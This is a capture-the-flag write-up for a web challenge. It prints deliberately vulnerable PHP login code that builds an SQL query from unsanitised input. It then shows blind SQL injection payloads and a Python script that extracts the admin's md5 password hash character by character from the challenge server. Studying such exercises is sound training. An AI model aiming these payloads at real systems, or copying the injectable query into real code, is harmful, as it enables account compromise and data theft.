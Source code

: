 # Challenge

Night king needs the secret flag to destroy the wall. Help night king get flag from LordCommander(admin) so that army of dead can kill the living.

http://163.172.176.29/WALL

# Walkthrough/Solution

Source of the login page: 

```
<html>
<head>
<title>The Wall</title>
</head>
<body>
<form action="index.php" method="POST">
Username:<input type="text" name="life" /><br>
Password:<input type="password" name="soul" /><br>
<input type="submit">
</form>
<br>
Here is the sourec of <a href="source.php">index.php</a>
</body>
</html>
```
And we are given source of index.php: 
```
<html>
<head>
<title>The Wall</title>
</head>
<body>
<?php
include 'flag.php';
if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
    $username = $_REQUEST['life'];
    $password = $_REQUEST['soul'];
    if(!(is_string($username)&&is_string($password))){
        header( "refresh:1;url=login.html");
        die("You are not allowed south of wall");
    }
    $password = md5($password);
    include 'connection.php';
    /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    $message = "";
    if(preg_match('/(union|\|)/i', $username)){
        $message="Dead work alone not in UNIONs"."</br>";
        echo $message;
        die();
    }
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);
    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username'];
        }
    }
    else{
        $message = "No such person exists"."<br>";
    }
    echo $message;
}else{
    header( "refresh:1;url=login.html");
    die("Only living can cross The Wall");
}
?>
</body>
</html>
```
Things to note here:
1. We are given the username (LordCommander).
2. Password is hashed using md5 before sending it to the server. This means that the database probably stores the md5 hash of LordCommander's password.
3. Not allowed to use `UNION` and we probably would not need to.

Trying a simple payload `LordCommander' and LOWER(password) LIKE '%` returns us `Wrong identity for LordCommander` and the payload `LordCommander' and password = 'random` returns us `No such person exists`.

The information collected from the two different payloads corresponds to this block of code:
```
    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username']; // prints this message after trying 1st payload
        }
    }
    else{
        $message = "No such person exists"."<br>"; // prints this message after trying 2nd payload
    }
```
With that, we can use the first query to bruteforce a md5 password (of length 32).

Here's a script I wrote to solve the challenge. It can be more efficient by performing binary search but this is simpler to understand:

```
import requests
import string

indexPage = "http://163.172.176.29/WALL/index.php"

client = requests.Session()
password = ""
perm = string.digits + string.letters

while len(password) != 32:

    for i in perm:
        query = "LordCommander\' and LOWER(password) LIKE \'" + password + i + "%"

        payload = {'life':query, 'soul':'randomstring'}
        html = client.post(indexPage,data=payload).text

        if "No such person exists" in html:
            continue
        else:
            password += i
            print "Currently checking password: %s" % password
            print "Current length of password: %d" % len(password)

print "Admin's username is LordCommander and the password (in md5) is %s" % password
```
![](https://github.com/tanhengyeow/ctf-journal/blob/master/backdoorctf17/the-wall/src/thewall.png)

# Learning outcome
1. Blind SQLi through python scripting
